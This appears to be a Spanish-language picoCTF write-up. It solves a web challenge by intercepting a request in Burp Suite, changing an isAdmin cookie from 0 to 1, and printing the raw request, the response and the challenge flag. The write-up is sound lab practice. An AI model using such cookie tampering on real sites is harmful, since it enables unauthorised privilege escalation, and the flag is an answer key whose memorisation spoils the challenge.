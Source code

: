 
# Descripcion
Can you get the flag?Go to this [website](http://saturn.picoctf.net:51197/) and see what you can discover.

# Hints
- Do you know how to modify cookies?

# Solucion

Lo primero que hacemos es analizar la pagina, tenemos un boton para continuar como invitado. En este momento verifico si hay una cookie, pero en este momento no hay. Si le doy click en continuar como un invitado, genera una cookie con un valor de `isAdmin=0`el cual no puedo editar. 

Ahora intercepto la peticion del sitio web. Con burpsuite intercepto la peticion:

```
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:51197
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://saturn.picoctf.net:51197/
Accept-Encoding: gzip, deflate, br
Cookie: isAdmin=0
Connection: keep-alive

```

Mando esto al `repeater` y modifico el valor de `isAdmin` a `1`, esto ya que 1 seria el equivalente a `True` y analizo la respuesta:

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 03 Apr 2025 23:18:37 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
Content-Length: 79





<html>
<body>



<p>picoCTF{gr4d3_A_c00k13_0d351e23}</p>


</body>
</html>

```

## Referencias
